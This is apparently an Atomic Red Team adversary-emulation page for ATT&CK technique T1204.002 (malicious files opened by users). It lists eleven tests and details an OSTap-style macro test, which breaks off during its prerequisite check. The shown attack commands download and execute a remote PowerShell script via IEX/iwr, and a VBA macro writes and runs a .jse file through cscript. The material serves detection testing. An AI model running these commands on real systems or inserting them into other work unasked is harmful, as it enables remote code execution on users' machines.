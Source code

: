 T1204.002 - User Execution: Malicious File
Description from ATT&CK
An adversary may rely upon a user opening a malicious file in order to gain execution. Users may be subjected to social engineering to get them to open a file that will lead to code execution. This user action will typically be observed as follow-on behavior from Spearphishing Attachment. Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, .cpl, and .reg.

Adversaries may employ various forms of Masquerading and Obfuscated Files or Information to increase the likelihood that a user will open and successfully execute a malicious file. These methods may include using a familiar naming convention and/or password protecting the file and supplying instructions to a user on how to open it.(Citation: Password Protected Word Docs)

While Malicious File frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it. This activity may also be seen shortly after Internal Spearphishing.

Atomic Tests
Atomic Test #1 - OSTap Style Macro Execution

Atomic Test #2 - OSTap Payload Download

Atomic Test #3 - Maldoc choice flags command execution

Atomic Test #4 - OSTAP JS version

Atomic Test #5 - Office launching .bat file from AppData

Atomic Test #6 - Excel 4 Macro

Atomic Test #7 - Headless Chrome code execution via VBA

Atomic Test #8 - Potentially Unwanted Applications (PUA)

Atomic Test #9 - Office Generic Payload Download

Atomic Test #10 - LNK Payload Download

Atomic Test #11 - Mirror Blast Emulation


Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. Upon execution, the .jse file launches wscript.exe. Execution is handled by Invoke-MalDoc to load and execute VBA code into Excel or Word documents. This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns. References: https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

Supported Platforms: Windows

auto_generated_guid: 8bebc690-18c7-4549-bc98-210f7019efff

Inputs:
Name	Description	Type	Default Value
jse_path	Path for the macro to write out the "malicious" .jse file	string	C:\Users\Public\art.jse
ms_product	Maldoc application Word or Excel	string	Word
Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Cleanup Commands:
Remove-Item #{jse_path} -ErrorAction Ignore
Dependencies: Run with powershell!
Description: Microsoft #{ms_product} must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}